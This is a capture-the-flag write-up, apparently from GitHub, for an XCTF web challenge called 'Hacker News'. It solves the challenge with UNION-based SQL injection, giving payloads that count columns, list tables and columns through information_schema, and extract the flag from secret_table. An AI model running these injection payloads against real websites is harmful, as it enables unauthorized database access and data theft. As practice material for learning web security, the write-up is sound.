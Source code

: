 # Challenge: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4686&page=1

<img width="1166" alt="Hacker News" src="https://user-images.githubusercontent.com/48151790/126885975-3ece1c3c-5122-4c53-acc3-b0112fb03eba.png">

# . Try with SQLi?

  . find the columns number in the table: 
  
  => Try something:
  
    ’union select 1,2;
    
  <img width="850" alt="This page Isn't working" src="https://user-images.githubusercontent.com/48151790/126886033-b6870608-0e4e-43cc-9d92-01910aa7eaa0.png">

    'union select 1,2,3;
    
  <img width="601" alt="111 200 241 24460604" src="https://user-images.githubusercontent.com/48151790/126886038-244a2c6a-da3a-49bf-8f47-b46a39950081.png">

  => there are 3 columns.
  
  . find the table name with infomation_schema:
  
  `'union select 1,2, table_name from information_schema.tables;`
  
  <img width="758" alt="A No Secure  111 200 241 24460604" src="https://user-images.githubusercontent.com/48151790/126886068-7a1cf050-ae2c-444b-998a-4e78a72abe5e.png">

  . secret_table looks questionable???
  
  <img width="889" alt="Screen Shot 2021-07-23 at 10 48 13" src="https://user-images.githubusercontent.com/48151790/126886098-c4658f05-e779-45f3-b0c3-9cfef1671169.png">

  . find data types and columns name of table:
  
  `'union select 1,column_type,column_name from information_schema.columns where table_name='secret_table';`
  
  <img width="875" alt="Search news" src="https://user-images.githubusercontent.com/48151790/126886170-6f5bc804-c163-456d-a00d-98cd5bb40911.png">

  => get flag in secret_table:
  
  `'union select 1,2,fl4g from secret_table;`
  
  <img width="871" alt="Search news" src="https://user-images.githubusercontent.com/48151790/126886179-4ceaa256-15d1-4949-b31b-20db49966d2e.png">
